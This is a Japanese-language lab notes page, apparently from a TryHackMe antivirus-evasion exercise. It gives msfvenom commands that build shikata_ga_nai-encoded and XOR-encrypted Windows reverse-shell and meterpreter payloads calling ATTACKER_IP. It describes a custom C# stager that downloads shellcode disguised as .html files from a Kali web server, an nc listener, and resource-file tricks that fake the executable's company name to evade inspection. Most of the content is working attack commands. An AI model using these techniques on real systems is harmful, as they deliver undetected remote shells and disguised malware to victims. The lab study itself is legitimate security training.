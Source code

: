 ## AVに検知される奴

### エンコード
エンコーダーの一覧
```
$ msfvenom --list encoders | grep excellent
```

ペイロードの作成
```
$ msfvenom -a x86 --platform Windows LHOST=ATTACKER_IP LPORT=443 -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f csharp
```

### 暗号化
暗号一覧
```
$ msfvenom --list encrypt
```

ペイロードの作成
```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=7788 -f exe --encrypt xor --encrypt-key "MyZekr3tKey***" -o xored-revshell.exe
```

これらは単純過ぎて、Windows Defenderに検知される。

## AVに検知されない奴

ドキュメントにしたがい試してみたが、自分のPCのWindows11ではWindows Defenderに検知される。

- THMのwindows defenderの状況
```
PS C:\Users\thm> Get-MpComputerStatus | Select-Object -Property AMEngineVersion, AMProductVersion, AntispywareSignatureVersion

AMEngineVersion AMProductVersion AntispywareSignatureVersion
--------------- ---------------- ---------------------------
1.1.19500.2     4.18.2205.7      1.373.1336.0


PS C:\Users\thm> Get-MpComputerStatus | Select-Object -Property AntivirusSignatureLastUpdated

AntivirusSignatureLastUpdated
-----------------------------
9/1/2022 3:20:12 AM
```

- 自分のPC
```
PS C:\Users\hoge> Get-MpComputerStatus | Select-Object -Property AMEngineVersion, AMProductVersion, AntispywareSignatureVersion

AMEngineVersion AMProductVersion AntispywareSignatureVersion
--------------- ---------------- ---------------------------
1.1.24050.5     4.18.24050.7     1.413.487.0


PS C:\Users\hoge> Get-MpComputerStatus | Select-Object -Property AntivirusSignatureLastUpdated

AntivirusSignatureLastUpdated
-----------------------------
2024/06/24 13:51:20
```

## なので自分で作った検知されない奴

### 共通の下準備

#### ステージャーの作成

それぞれ、`mfsvenom`でペイロードを作成して、webサーバーに設置。共通のステージャー(hoge.cs)を使用する。
1. hoge.csを作成
2. Windows上でコンパイル
```
>C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe hoge.cs
```
3. 出来上がった`hoge.exe`をやられ役のWindowsに配備

#### kaliでwebサーバーを起動
```
$ python -m http.server
```

### パターン1: 電卓起動(ステージャー型)

1. ペイロードの作成
```
$ msfvenom -a x64 --platform windows -p windows/x64/exec cmd=calc.exe -f raw -o a.html -b '\x00\x0a\x0d'\n
```

2. やられ役のWindows上で、hoge.exeを実行
```
>hoge.exe
```

![image](https://github.com/yokohama/thm/assets/1023421/f99c50cc-3053-43c8-ace7-9f04628b1c11)



### パターン2: リバースシェル(ステージャー型)

1. ペイロードの作成
```
$ msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=<Kali IP> LPORT=7474 -f raw -o b.html -b '\x00\x0a\x0d\'
```

2. やられ役のWindows上で、hoge.exeを実行(ペイロードURLをb.htmlに変更して)
```
>hoge.exe
```

3. Kaliで待ち受ける
```
$ nc -lvp 7474
```

![スクリーンショット 2024-06-25 131542](https://github.com/yokohama/thm/assets/1023421/4ba88b4f-dabe-42dd-b933-7238d0eb54d9)

### process explorerなどで見た時の会社名を加工する

1. RC(リソース・スクリプト(テキスト))_ファイルの作成

今回は会社名を加工したい。[こちら](https://github.com/yokohama/thm/blob/main/avevasionshellcode/task7/hoge.rc)を参照。

2. RCファイルをRES(リソース(バイナリ))ファイルに変換
- RCファイルをリソースコンパイラ (rc.exe) を使用して .res ファイルに変換する。RESファイルは、バイナリ形式のリソースデータを含むファイルで、アプリケーションの実行ファイルに組み込むためのリソース情報を格納する。
- いろいろ `\i` で、インクルードしないと実行できなかった。
```
>"C:\Program Files (x86)\Windows Kits\10\bin\10.0.22621.0\x64\rc.exe" /i"C:\Program Files (x86)\Windows Kits\10\Include\10.0.22621.0\um" /i"C:\Program Files (x86)\Windows Kits\10\Include\10.0.22621.0\shared" /fo"hoge.res" "hoge.rc"
```

3. RESファイルを使用してCSファイルをコンパイルし、EXEファイルを作成

- C# コンパイラ (csc.exe) を使用して、.cs ファイルと .res ファイルから実行可能ファイル .exe を生成。このステップでは、リソースファイルが実行ファイルに組み込まれ、最終的な製品に会社名やその他の情報を含めることができる。
```
>C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /out:hoge.exe /win32res:hoge.res hoge.cs
```

![スクリーンショット 2024-06-25 232911](https://github.com/yokohama/thm/assets/1023421/4c98d8e1-5cc1-4e54-8954-749155cabb1f)


